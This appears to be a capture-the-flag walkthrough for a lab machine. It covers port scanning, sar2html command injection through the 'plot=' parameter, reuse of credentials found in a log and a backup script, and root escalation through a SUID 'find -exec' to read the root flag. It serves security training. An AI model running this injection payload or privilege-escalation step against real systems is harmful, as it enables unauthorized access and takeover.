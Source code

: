 
port http -> apache
port ftp:

### FTP
anonymous login:

Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl! ----> ROT13 -----> Just wanted to see if you find it. Lol. Remember: Enumeration is the key!

---

### Full Enum 

> nmap -p- $TARGET

```
Nmap scan report for 10.10.93.225
Host is up (0.096s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
10000/tcp open  snet-sensor-mgmt
55007/tcp open  unknown
```

> nmap -sV -p 21,80,10000,55007 $TARGET

```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
55007/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

* Googled : "MiniServ 1.930 exploit" : Nothing interesting
* [Webmin Security patches](http://www.webmin.com/security.html)

So we cannot exploit it properly

### CMS

let's investigate port 80 :

> dirb http://$TARGET

```
```

joomla.

	Dig more: dirbres.txt

	```
	==> DIRECTORY: http://10.10.93.225/joomla/_archive/                                                
	==> DIRECTORY: http://10.10.93.225/joomla/_database/                                               
	==> DIRECTORY: http://10.10.93.225/joomla/_files/                                                  
	==> DIRECTORY: http://10.10.93.225/joomla/_test/
	```

Some trolling stuff with junk base64s and hashes

also busted _files directory; Nothing there!
```
---- Scanning URL: http://10.10.93.225/joomla/_files/ ----
+ http://10.10.93.225/joomla/_files/index.html (CODE:200|SIZE:168)
```

#### Joomla/_test

Googled sar2html: Remote Command Execution
	* It runs commends over plot (index.php?plot=) parameter
	* URL injection forman index.php?plot=;$YOUR_COMMAND
	* command output on select Host <select> element

so let's ls;

> http://10.10.93.225/joomla/_test/index.php?plot=;ls

	* log.txt :
	```
	Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
	```
found some credintials on ssh ( On port 55007 )

### SSH

bastard:superduperp@$$ on port 55007
> ssh basterd@$TARGET -p 55007

Now we have shell access

> ls -la
> cat backup.sh

```
	.
	.
	.
	USER=stoner
	#superduperp@$$no1knows

	ssh $USER@$REMOTE mkdir $TARGET/$DATE
	.
	.
	.
```

we have found another user's creds :

> su stoner

now we are stoner :)

> ls -la
```
	-rw-r--r-- 1 stoner stoner    34 Aug 21  2019 .secret
```
> cat .secret

It contains the flag for Q#2#2

### PrivEsc
> id

```
	uid=1000(stoner) gid=1000(stoner) groups=1000(stoner),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

> sudo -l
```
	User stoner may run the following commands on Vulnerable:
	    (root) NOPASSWD: /NotThisTime/MessinWithYa
```

COOL! fooled again :'(


Gave up and tried LinEnum.sh
	1. transfer it to the target machine via SimpleHTTPServer and chmod +x
	2. ./LinEnum.sh > linenumres
	3. Download if from target machine

Interesting resualts:

```
### SOFTWARE #############################################

[-] MYSQL version:
mysql  Ver 14.14 Distrib 5.7.27, for Linux (i686) using  EditLine wrapper

[+] Possibly interesting SUID files:
-r-sr-xr-x 1 root root 232196 Feb  8  2016 /usr/bin/find
```

MySQL was running locally but useless.
but "find" command, it can execute commands as root via -exec parameter. Because it has the SUID of root set.

> find . -exec ls -la /root \;
> find . -exec cat /root/root.txt \;

and Done!



